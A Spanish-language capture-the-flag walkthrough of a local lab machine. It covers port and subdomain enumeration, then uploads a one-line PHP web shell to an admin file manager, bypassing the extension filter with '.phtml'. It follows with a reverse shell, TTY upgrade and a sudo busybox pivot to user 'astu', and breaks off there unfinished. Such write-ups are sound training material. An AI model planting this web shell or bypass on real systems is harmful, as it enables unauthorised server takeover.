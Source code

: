 ## Enumeracion de Puertos, Servicios y Versiones

```bash
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2
```

![image](https://github.com/user-attachments/assets/cc9f3d9e-c8b9-4428-b9f0-81158e407362)

`nmap` reporta solo un puerto (servicio HTTP), por lo que accedo al servicio web 

![image](https://github.com/user-attachments/assets/ecd822b3-e318-4e48-b178-3545165a4c1e)

me consigo con la plantilla por defecto de apache pero un tanto modificada con informacion, `/var/www/5eEk3r`, lo primero que hare sera agregar en `/etc/hosts`
`5eEk3r` como dominio e intentar acceder a ver si cambia algo

```bash
echo '172.17.0.2 5eEk3r.dl' >> /etc/hosts
```

ahora accedo nuevamente al servicio web


![image](https://github.com/user-attachments/assets/76f15ea2-a3f3-43e3-8c5f-8428c5e2b167)

observo lo mismo, asi que le reliazo fuzzinf web

```bash
feroxbuster -u http://5eek3r.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,bak,db,py,html,js,jpg,png,git,sh -t 200 --random-agent --no-state -d 5
```

![image](https://github.com/user-attachments/assets/9ef94e30-2282-47b7-a4e3-fba9134e385b)

por lo visto no hay nada de interes por lo que intento buscar subdominios

```bash
wfuzz -H "Host: FUZZ.5eEk3r.dl" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -u http://5eek3r.dl/
```

![image](https://github.com/user-attachments/assets/aa704f75-eaf9-4d7d-8b02-49dd7da65bf6)

agrego dicho subdominio en `/etc/hosts` que quede asi

```bash
172.17.0.2   5eEk3r.dl crosswords.5eEk3r.dl
```
y preocedo acceder 

![image](https://github.com/user-attachments/assets/299cd8ea-a2aa-4a5e-b513-88c85b7715c7)

me consigo con una web que codifica el texto que le pasemos sustituyendo cada letra por la siguiente en el puerto `14`, inspeccionando la web me consigo con un comentario

![image](https://github.com/user-attachments/assets/ee3cc4de-7833-4b72-83b7-8a50463151c0)

en un principio intentar explotar un `xss` no tiene mucho sentido si el objetivo es intentar acceder al servidor por lo que continuo sin hacer caso al comentario del `xss`.
Esta web no parece tener nada mas asi que continuo buscando subdominios en vista de que no tengo nada mas que intentar

```bash
wfuzz -H "Host: FUZZ.crosswords.5eEk3r.dl" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -u http://5eek3r.dl --hh=10705
```

![image](https://github.com/user-attachments/assets/9d48f1f7-d4c4-4d06-a9c2-db94f50e2727)

obtengo el subdominio `admin` y realizo el mismo procedimiento en `/etc/hosts` y agrego `admin` quedando asi:

```bash
172.17.0.2   5eEk3r.dl crosswords.5eEk3r.dl admin.crosswords.5eEk3r.dl
```

procedo acceder

![image](https://github.com/user-attachments/assets/36d1e6a9-e65b-41c6-9b93-ef571b890dba)

damos con un administrador de archivos donde es posible eliminar asi como cargar archivos y por lo visto la web interpreta `php` ya que observo un `index.php`, por tal
motivo procedo con la carga de un archivo `php` malicioso

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
cargo el archivo malicioso y me arroja el siguiente mensaje

![image](https://github.com/user-attachments/assets/b38e2f8b-1f5b-46de-9136-ee11bdc85360)

no es posible cargar un archivo `php` directamente pero existen formas, primero intente el bypass modificando la peticion en el `Content-Type` pero el servidor no
esta validando esto sino la extension del archivo por lo que tras ir testeando diferentes extensiones logre dar con la que es posible cargar y sobre todo la extension
que es interpretada como `php` por el servidor.

![image](https://github.com/user-attachments/assets/e0b7e362-9e68-421f-a794-7bf766ad1bfa)

como se observa, la extension es `phtml`; asi que ya cargado el archivo malicioso procedo a obtener la `revershell`

![image](https://github.com/user-attachments/assets/bf4084f1-df45-4bba-90eb-af1a2f17e9f8)


## Escalada de Privilegios

### www-data

tratamiento de la tty

```bash
script /dev/null -c bash 
^z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```

veo que puedo ejecutar el binario `busybox` como el usuario `astu`

![image](https://github.com/user-attachments/assets/2bb9e862-7e43-4cac-b696-a794a62f62b8)

asi que para saltar al usuario `astu` ejecutamos lo siguiente

```bash
sudo -u astu /usr/bin/busybox sh
```

### astu

 CONTINUAMOS LUEGO ;) 



































